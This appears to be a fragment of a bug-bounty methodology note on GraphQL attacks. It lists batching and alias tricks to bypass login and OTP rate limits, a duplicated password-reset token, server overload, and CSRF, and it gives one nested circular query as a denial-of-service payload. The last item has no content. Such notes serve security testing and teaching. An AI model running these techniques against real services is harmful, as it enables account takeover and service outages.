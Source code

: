 1. Bypassing rate limiting on Login, OTP using [Aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)/[GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)
2. Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack
3. If a query takes long time to complete, it used to overwhelm the server by using GraphQL Batching attack
4. If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.
  ![image](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)

'

    query {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          pastes {
                            owner {
                              name
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
    



5. CSRF over Graphql
